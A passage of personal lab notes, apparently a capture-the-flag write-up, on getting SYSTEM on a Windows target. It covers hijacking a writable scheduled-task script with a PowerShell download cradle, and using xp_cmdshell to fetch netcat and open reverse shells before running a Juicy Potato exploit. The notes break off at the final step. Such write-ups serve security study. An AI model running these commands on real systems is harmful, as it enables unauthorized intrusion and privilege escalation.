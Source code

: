 # Getting Root
SPBestWarmUp.ps1 is writeable and SPBestWarmUp.xml is calling a task. Gonna write SPBestWarmUp.ps1 to reverse shell with file SPBestWarmUp.ps1
![[Pasted image 20211116132619.png]]

Tasks run every hour
```powershell
echo "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.21/nishang.ps1')" > SPBestWarmUp.ps1
```


Run PowerUp.ps1
![[Pasted image 20211116140521.png]]
![[Pasted image 20211116140619.png]]


### another way to exploit is using juicy potato
On SQSH
```
xp_cmdshell 'dir C:\';
go

xp_cmdshell 'mkdir c:\boo';

xp_cmdshell 'powershell Invoke-WebRequest -uri http://10.10.14.17/nc.exe -outfile c:\boo\nc.exe';
go

xp_cmdshell 'c:\boo\nc.exe 10.10.14.17 6969 -e cmd';
go
```


Write shell.bat and copy it with ‘iwr’ to target:
```
c:\boo>type shell.bat
type shell.bat
c:\boo\nc.exe 10.10.14.17 6868 -e cmd
```

Now run the Juicy-Potato exploit.

```
c:\boo>.\jp.exe -l 9001 -t * -p c:\boo\shell.bat -c "{7A6D9C0A-1E7A-41B6-82B4-C3F7A27BA381}"
.\jp.exe -l 9001 -t * -p c:\boo\shell.bat -c "{7A6D9C0A-1E7A-41B6-82B4-C3F7A27BA381}"
Testing {7A6D9C0A-1E7A-41B6-82B4-C3F7A27BA381} 9001
......
[+] authresult 0
{7A6D9C0A-1E7A-41B6-82B4-C3F7A27BA381};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```

and catch the System privileged shell: